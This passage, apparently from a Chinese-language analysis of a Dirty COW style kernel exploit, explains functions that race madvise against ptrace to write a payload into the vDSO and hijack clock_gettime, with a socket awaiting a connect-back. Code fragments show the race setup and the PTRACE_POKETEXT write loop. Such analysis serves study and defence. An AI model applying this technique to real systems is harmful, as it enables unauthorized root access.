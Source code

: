 ### 7 . create\_socket <a id="7-createsocket"></a>

函数原型

```text
static int create_socket(uint16_t port)
```

函数介绍  
 设置一个监听socket,等待payload被执行,向这个socket发起连接

### 8 . exploit <a id="8-exploit"></a>

函数原型

```text
static int exploit(struct mem_arg *arg, bool do_patch)
```

函数介绍,通过漏洞,将数据写到指定内存地址  
 do\_patch = true  
 =&gt; 将payload写进vDSO,修改clock\_gettime前面几个字节为jmp payload  
 do\_patch = false  
 =&gt; 将vDSO地址中原来的数据还原回去

主要代码

```text
    pid = fork();
    if (pid == -1) {
        warn("fork");
        return -1;
    } else if (pid == 0) {
        check(arg);
    }

    arg->stop = false;
    pthread_create(&pth1, NULL, madviseThread, arg);
    pthread_create(&pth2, NULL, ptrace_thread, arg);
```

这里开启两个进程,子进程不停检查数据是否成功写入,成功则返回0,否则返回1  
 主线程开启两个线程,  
 ptrace\_thread 向vDSO写  
 madvise\_thread 将vDSO映射空间释放,对ptrace线程造成干扰,从而触发漏洞,写入成功  
 ptrace循环写

```text
while (n >= sizeof(long)) {
        memcpy(&value, s, sizeof(value));
        if (ptrace(PTRACE_POKETEXT, pid, d, value) == -1) {
            warn("ptrace(PTRACE_POKETEXT)");
            return -1;
        }

        n -= sizeof(long);
        d += sizeof(long);
        s += sizeof(long);
    }
```
